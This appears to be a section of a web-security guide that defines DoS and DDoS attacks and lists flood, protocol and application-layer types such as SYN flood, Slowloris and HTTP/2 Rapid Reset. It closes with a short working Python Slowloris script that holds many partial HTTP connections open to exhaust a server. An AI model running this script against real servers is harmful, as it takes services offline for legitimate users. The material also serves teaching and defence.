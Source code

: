 
## DoS/DDoS Attacks

### Definition
Denial of Service (DoS) and Distributed Denial of Service (DDoS) attacks aim to make web services unavailable by overwhelming them with traffic or exploiting resource consumption vulnerabilities.

### Types of DoS/DDoS Attacks

#### Volume-Based Attacks
- **UDP Flood**: Overwhelming with UDP packets
- **ICMP Flood**: Ping flood attacks
- **Other Protocol Floods**: TCP, HTTP floods

#### Protocol Attacks
- **SYN Flood**: Exploiting TCP handshake
- **Ping of Death**: Oversized ping packets
- **Smurf Attack**: Broadcast ping exploitation

#### Application Layer Attacks
- **HTTP Flood**: Overwhelming HTTP requests
- **Slowloris**: Slow HTTP requests
- **Slow POST**: Slow HTTP POST attacks
- **HTTP/2 Rapid Reset**: Exploiting HTTP/2 features

### HTTP-Specific Attacks

#### Slowloris Attack
- Keeps connections open with partial requests
- Sends minimal data to avoid timeout
- Exhausts server connection pool

```python
# Slowloris attack concept
import socket
import time

def slowloris_attack(target, port):
    sockets = []
    for i in range(200):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((target, port))
        sock.send(b"GET / HTTP/1.1\r\nHost: " + target.encode() + b"\r\n")
        sockets.append(sock)
    
    while True:
        for sock in sockets:
            sock.send(b"X-a: b\r\n")
        time.sleep(10)
```
